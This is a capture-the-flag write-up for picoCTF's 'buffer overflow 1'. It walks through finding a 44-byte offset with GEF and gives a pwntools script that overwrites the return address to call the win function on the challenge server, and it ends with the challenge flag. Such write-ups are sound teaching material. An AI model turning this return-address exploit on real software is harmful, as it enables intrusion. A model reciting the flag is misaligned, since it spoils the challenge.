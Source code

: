 # buffer overflow 1
## Overview
Points: x
Category: Binary Exploitation

## Description
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](). You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 63016`


## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solution

If you look closely to the `vuln.c`, our objective is simply to jump to the `win` function.

We can first see in the source code that were given, and if you look carefully, there is a "define" above the function that said "BUFFSIZE 32", and the program used a dangerous function which is "gets". Running the checksec command to see the Security that setted for the binary we got this.

<p align=center>
    <img src="./checksec.png" width=40%>
</p>

Take note that this binary is a 32-bits binary with no security settings.

We gonna start the exploitation using gdb with GEF. Using a pattern create to generate a string of a default 1024 bytes, then we just need to run the program and find out the offset.

With GEF we can simply use this command to see the offset of an address.  
```gef> pattern search $esp``` 

<p align=center>
    <img src="./patternsearch.png" width=50%>
</p>

As you can see we found it at 48, but remember it's a 32-bits binary, which mean the ESP may be equals to the EIP. What we want to control here is where the program jump, which mean the EIP. We can confirm this by using a ```pattern create 48``` then see the "returning to" string that print out the EIP values.

<p align=center>
    <img src="./return.png"  width=50%>
</p>

`0x6161616c` is actually the hex value of the last four char `laaa`, that means if we want to go to `win`, the real payload would be

```
payload = (b'a' * 44) + address of win
```

Now it's the time to make our exploit.
```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

#p = process(binary)
p = remote('saturn.picoctf.net',57535)
p.recv()

payload = b'a'*44
payload+= p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

Notice we use the `p32()` specifier, because it's a 32-bit binary, we need the correct packing to be able to send the payload correctly, in this case a pack 32 or `p32()`.

Just run the payload and now you will get the flag.

## Flag

```picoCTF{addr3ss3s_ar3_3asy_0195a40f}```